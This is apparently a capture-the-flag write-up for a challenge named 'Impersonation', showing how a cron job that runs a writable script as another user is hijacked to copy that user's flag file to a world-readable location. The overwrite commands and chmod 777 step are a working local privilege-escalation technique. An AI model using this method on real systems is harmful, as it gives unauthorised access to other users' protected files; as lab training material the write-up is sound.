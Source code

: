 # Impersonation [350 points] (1 solves)
```
> cat /etc/cron.d/cron_sam 

*/1 * * * * sam /home/sam/cron.sh > /dev/null 2>&1
```
We can see that the crontab run cron.sh every minute as user sam, then we can use `/home/sam/cron.sh` to get the flag:
```bash
echo '#!/bin/bash
/bin/cat /home/sam/flag > /var/tmp/flag.txt
/bin/chmod 777 /var/tmp/flag.txt' > /home/sam/cron.sh
```
After that, the flag will appear in `/var/tmp/flag.txt`.